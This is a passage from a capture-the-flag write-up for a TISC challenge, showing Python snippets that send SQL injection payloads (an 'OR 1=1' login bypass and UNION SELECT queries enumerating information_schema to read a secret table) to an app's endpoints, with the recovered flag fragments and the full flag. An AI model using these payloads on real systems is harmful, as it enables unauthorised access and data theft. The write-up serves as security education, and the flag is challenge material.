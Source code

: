 ```python
cred['username'] = '''admin' OR 1=1 -- '''
cred['password'] = 'aaa'
cred = stateful(p('login', cred), pr=True)
```

```
{"success":true,"message":"Login successful","csrfToken":"...","access_token":"...","flag_2":"r3t_15_r0p11"}
```

Guess we are not done yet. Maybe the last chunk is in one of the messages? Based on the hint from the application source code, the message ID seem to be just numbers, but finding the correct one seems to be non-trivial. Though after obtaining the part 2 flag, it shouldn't be too much of a stretch to guess that this could be yet another SQL injection attack.

Thus with some help from ChatGPT:

```python
# early diagnostics
"""1' --"""
"""1 OR 1=1"""
"""1 ORDER by 1"""
"""1 ORDER by 3"""

# there exists a separate secret table storing the flag, which has a different table name depending on the session.
cred['messageId'] = """-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=database()"""
table = 'secret_' + p('message', cred).text.split('"message":"secret_')[1].split('","')[0]

# after getting table name, one final SQL injection to read the table row
cred['messageId'] = f"""-1 UNION SELECT 1,secret FROM {table}"""
stateful(p('message', cred), pr=True)
```

```
c_15_th3_B1GG35T_5c4m}
```

And thus the combined flag is

```
TISC{Th3_53cr3t_15_r0p11c_15_th3_B1GG35T_5c4m}
```

Overall I would say I was a little disappointed with this challenge because I thought it would be full on Android reversing (like last year's Wallfacer), since this was off the other track, but this challenge ended up mainly just being SQL injection via an Android wrapper (which I didn't even end up needing to use).

---

<a id="8" style="display:none;"></a>
<a id="8b" style="display:none;"></a>

## [8B] Super "Optimised" Swap
